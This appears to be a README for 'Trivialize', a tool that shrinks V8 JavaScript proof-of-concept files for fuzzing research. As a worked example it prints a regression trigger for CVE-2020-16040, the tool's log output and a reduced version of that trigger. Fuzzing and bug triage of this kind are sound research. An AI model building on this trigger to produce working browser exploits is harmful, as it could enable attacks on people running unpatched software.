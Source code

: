 # Trivialize

If you have a complex proof-of-concept and want to simplify it, just run this against it.

This useful little tool is a byproduct of my exploration into javascript engine fuzzing. It uses
many of the same techniques that popular fuzzing tools utilise for corpus minimization, just to an
extreme degree.

Currently only supports V8, but I plan on adding support for both SpiderMonkey and JavascriptCore
in the future.

## Example

Take this rather complicated regression for CVE-2020-16040 (this is very likely fuzzer output),
for example.

```js
/* examples/cve-2020-16040/regression.js */

function jit_func(a, b) {
  var v921312 = 0xfffffffe;
  let v56971 = 0;  
  var v4951241 = [null, (() => {}), String, "string", v56971];
  let v129341 = [];
  v921312 = NaN;
  if (a != NaN) { 
      v921312 = (0xfffffffe)/2; 
  }
  if (typeof(b) == "string") { 
      v921312 = Math.sign(v921312); 
  }
  v56971 = 0xfffffffe/2 + 1 - Math.sign(v921312 -(-0x1)|6328);
  if (b) {
    v56971 = 0;
  }
  v129341 = new Array(Math.sign(0 - Math.sign(v56971)));
  v129341.shift();
  v4951241 = {};
  v129341.shift();
  v4951241.a = {'a': v129341};  
  for (let i = 0; i < 7; i++) {
    v129341[5] = 2855;
  }
  return v4951241;
}

/* `__NATIVE__` is used instead of `%` for parsing */
__NATIVE__PrepareFunctionForOptimization(jit_func);
jit_func(undefined, "KCGKEMDHOKLAAALLE").toString();
__NATIVE__OptimizeFunctionOnNextCall(jit_func);
jit_func(NaN, undefined).toString();
```

Running the tool against the above regression reduces its size (in terms of nodes
within its AST) by almost 70%, resulting in a much simpler proof-of-concept.

```
$ ./trivialize.js --script examples/cve-2020-16040/regression.js --rename-variables

Trivialize v0.0.1 (c) Anvbis
https://github.com/anvbis/trivialize

trivialize: info: starting pass 1/?, 165 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 60 nodes at end, 63.64% node reduction

trivialize: info: starting pass 2/?, 60 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 52 nodes at end, 13.33% node reduction

trivialize: info: starting pass 3/?, 52 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 52 nodes at end, 0.00% node reduction

trivialize: info: finished, total node reduction of 68.48%
```

```js
function jit_func(arg_1, arg_2) {
    var var_0 = NaN;
    if (arg_1) {
        var_0 = 4294967294;
    }
    if (typeof arg_2) {
        var_0 = Math.sign(4294967294);
    }
    v56971 = var_0 - -1 | 6328;
}
%PrepareFunctionForOptimization(jit_func);
jit_func();
%OptimizeFunctionOnNextCall(jit_func);
jit_func();
```

## Usage

```
Usage: ./trivialize.js --script <script>

Options:
  --help              Show help                                        [boolean]
  --version           Show version number                              [boolean]
  --script            Target script to reduce                [string] [required]
  --rename-variables  Attempt to rename variables                      [boolean]
  --executable        Path to d8 executable       [string] [default: "./bin/d8"]
  --output            Output script to file                             [string]
```

## Installation

Coming soon...